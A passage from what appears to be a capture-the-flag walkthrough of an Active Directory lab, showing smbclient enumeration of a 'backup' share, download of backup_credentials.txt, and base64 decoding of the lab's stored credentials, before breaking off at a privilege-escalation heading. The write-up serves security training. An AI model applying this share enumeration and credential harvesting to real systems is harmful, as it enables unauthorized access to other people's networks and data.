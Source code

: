 *Hint: man smbclient will tell you a little bit about the tool!*

Answer: `-L`

## #6.3 - How many remote shares is the server listing?

Answer: `6`

## #6.4 - There is one particular share that we have access to that contains a text file. Which share is it?

Let's connect to the `backup` share and list the files:

~~~
$ smbclient -U spookysec.local/svc-admin //10.10.104.142/backup
Enter SPOOKYSEC.LOCAL\svc-admin's password: 
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sat Apr  4 19:08:39 2020
  ..                                  D        0  Sat Apr  4 19:08:39 2020
  backup_credentials.txt              A       48  Sat Apr  4 19:08:53 2020

		8247551 blocks of size 4096. 5269591 blocks available
smb: \> get backup_credentials.txt
getting file \backup_credentials.txt of size 48 as backup_credentials.txt (4.3 KiloBytes/sec) (average 4.3 KiloBytes/sec)
smb: \>
~~~

## #6.5 - What is the content of the file?

*Hint: The encoded contents of the file*


The text file contains base64 encoded credentials:

~~~
$ cat backup_credentials.txt 
YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw
~~~

## #6.6 - Decoding the contents of the file, what is the full contents?

Decoding the base64 string reveals the credentials:

~~~
$ echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
backup@spookysec.local:backup2517860
~~~

# [Task 7] Elevating Privileges
